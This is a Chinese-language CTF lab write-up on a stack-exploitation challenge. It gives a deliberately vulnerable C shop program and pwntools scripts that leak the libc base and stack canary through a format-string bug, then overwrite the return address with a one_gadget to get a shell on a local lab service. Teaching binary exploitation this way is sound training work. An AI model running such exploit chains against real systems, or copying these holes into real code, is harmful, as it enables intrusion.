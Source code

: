```yaml
---
title: "Day20－Stack 題目練習"
date: 2024-09-20
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天大致來到 Stack 部分的尾聲，前面的內容我們討論了幾個經典的 Stack 漏洞，講解了如何進行攻擊並編寫 exploit，也介紹了不少實用的工具。今天，我們將實際練習一道程式碼量較大的題目，這是我在 HITCON 社團攤位時設計的練習題目。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int choice,num;
char *product[3] = {
    "shirt\n",
    "sticker\n",
    "tissue\n"
};

void buy(){
    printf("We have 3 products:\n");
    for(int i=0; i<3; i++){
        printf("%d. %s", i+1, product[i]);
    }
    printf("Which one do you want to buy? ");
    scanf("%d", &choice);
    printf("You have bought %s\n", product[choice-1]);
    printf("How many do you want to buy? ");
    scanf("%d", &num);
    return;
}

char address[0x20];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    printf("This is HackerSir!\n");
    printf("Welcome to the shop!\n");
    printf("1. Buy\n");
    printf("2. Exit\n");
    printf("Your choice: ");
    scanf("%d", &choice);
    if(choice==1){
        buy();
        printf("Please leave your address: ");
        scanf("%s", address);
        printf(address);
    }else{
        printf("Goodbye!\n");
        exit(0);
    }
    char last[0x10];
    printf("\nleave your last message to our club: ");
    read(0, last, 0x30);
    return 0;
}
```

使用以下指令進行編譯：

```bash=
gcc src/online_shopping.c -o ./online_shopping/share/online_shopping -fstack-protector-all -z now
```

## writeup

從編譯參數可以看出，程式是動態連結且保護全開。如果想要透過 return address 控制程式流程，需要先 leak 出 canary。我們注意到第 18 行有機會透過越界存取資訊，第 38 行可以利用 format string bug 來 leak 出 stack 資訊，最後的 read 也可能導致 overflow。因此，我們需要確認以下幾點：

- 能否找到 libc base 和 canary
- 有多少 overflow 空間，以及能否透過某種方法獲取 shell

首先確認能否找到 libc base 和 canary。這裡使用簡單的 script 來驗證是否可以利用 format string 漏洞 leak 出這些資訊。在此之前，我們可以換用適當的 libc，參考[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

利用 format string 漏洞，先用 %p 格式輸出 stack 的值，通過 gdb 檢查是否能獲取有用的資訊。後面的 `-` 用來分隔每個位置，方便後續寫 exploit 時精確控制。

以下是簡單的 script：

```py=
from pwn import *
r = process('./online_shopping')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p')
leak = r.recvuntil('\n', drop=True)
print(leak)
r.interactive()
```

執行後，可以看到第三個參數 offset 是 0x21aaa0，第九個參數是 canary。將 leak 的 payload 改為 `%3$p-%9$p` 以 leak 出 libc base 和 canary，並計算出 libc base。

![image](https://hackmd.io/_uploads/S1hVOV3CC.png)

![image](https://hackmd.io/_uploads/BJeBuV2RR.png)

![image](https://hackmd.io/_uploads/ByvP_E20C.png)

以下是驗證的 script：

```py=
from pwn import *
import sys
r = process('./online_shopping')
# r = remote('127.0.0.1', 10011)
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
r.interactive()
```

確認成功 leak 到 libc 和 canary。

![image](https://hackmd.io/_uploads/rylNYNnAR.png)

接下來，我們嘗試控制程式流程。根據 objdump，我們知道從 rbp-0x20 開始輸入 0x30，因此只可以控制到 return address。由於我們已經 leak 出 libc base，接下來使用 one_gadgets 獲取 shell，具體可參考 [Day14－Other ret2libc(one gadgets)](https://ithelp.ithome.com.tw/articles/10359719)

![image](https://hackmd.io/_uploads/ByK5YV3A0.png)

完整 exploit：

要記得我們在 rbp 前要填入我們所 leak 到的 canary，不然程式會 crash，另外，可以將 rbp 填入 libc 的 bss 段，因為我們沒有事先 leak pie

```py=
from pwn import *
import sys
# r = process('../online_shopping/share/online_shopping')
r = remote('127.0.0.1', 10011)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
og = libc + 0xebd3f
payload2 = b'A' * 0x18 + p64(canary) + p64(libc + 0x21be00) + p64(og)
r.sendlineafter('club: ', payload2)
r.interactive()
```

solved!!!

![image](https://hackmd.io/_uploads/Hyr5qEh0R.png)
